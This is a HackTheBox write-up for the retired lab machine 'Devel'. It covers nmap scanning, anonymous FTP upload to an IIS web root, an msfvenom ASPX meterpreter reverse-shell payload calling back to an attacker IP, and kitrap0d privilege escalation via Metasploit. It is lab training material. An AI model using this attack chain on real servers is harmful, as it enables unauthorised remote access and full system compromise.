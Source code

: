 ```yaml
---
layout: post
title: Devel
subtitle: Hackthebox devel write up.
thumbnail-img: /assets/img/htb-devel/Devel.png
tags: [htb]
---
```


Hello Guys, This is my first HACK-THE-BOX writeup. This write-up is for the retired machine `DEVEL`.

So with out making any delay, we will start with a nmap scan. I always start with a full port scan using below nmap command.

```
nmap -p- --min-rate 5000 10.10.10.5 -oA nmap/fullport
```

![nmap scan](/assets/img/htb-devel/fullport.png)

Then we will go for another scan with `A` flag and for specific open ports.

```
nmap -p 21,80 -A 10.10.14.3 -oA nmap/portscan
```

![portscan](/assets/img/htb-devel/portscan.png)

So we can see here port 21/TCP - FTP and 80/TCP - HTTP are open.

For port 21, we can see that anonymous login is enabled. Let's login to port 21.

```
ftp 10.10.10.5
```

![ftp](/assets/img/htb-devel/ftp.png)

Checked the directory aspnet_client but there's nothing much useful.

Now we can check the port 80 and see if we find anything useful. Opened the site in a web browser and found a default IIS7 page. It contains an image, when we check the image name in source page it is welcome.png.

![http](/assets/img/htb-devel/http.png)

From the ftp directory listing we saw that there was a png file with name "wecome.png". Let's upload a file to ftp and see if we can access that from port 80. 

![ftptest](/assets/img/htb-devel/ftptest.png)

And yes, that was accessible. Now we can load a aspx meterpreter payload and try to get a reverseshell.

Let's generate a payload using msfvenom.
```
msfvenom -p windows/meterpreter_reverse_tcp LHOST=10.10.14.3 LPORT=9999 -f aspx > shell.aspx 
```

Now the payload can be uploaded to the server using ftp.

![ftpupload](/assets/img/htb-devel/ftpupload.png)

Let's open a metasploit listener for the payload. We have to set the options as per the msfvenom command.

![meterpreter](/assets/img/htb-devel/meterpreter.png)

Now try to access the `shell.aspx` page and boom. We got the meterpreter session open for us. 

![shell](/assets/img/htb-devel/shell.png)

But unfortunately we can't access the user directory. So we have to go for the privilege escalation. For that we can look for the `suggester` in metasploit. We can set the session to our open meterpreter session and hit `run`.

![suggested](/assets/img/htb-devel/suggested.png)

We can try the exploits and see if we get the root access. While trying each exploit, I found that `windows/local/ms10_015_kitrap0d` seems to be working fine for me and I got the root access.

![root](/assets/img/htb-devel/root.png)

Let's look for the flags.

![flags](/assets/img/htb-devel/flags.png)

That's all about this write-up. Thanks for reading.
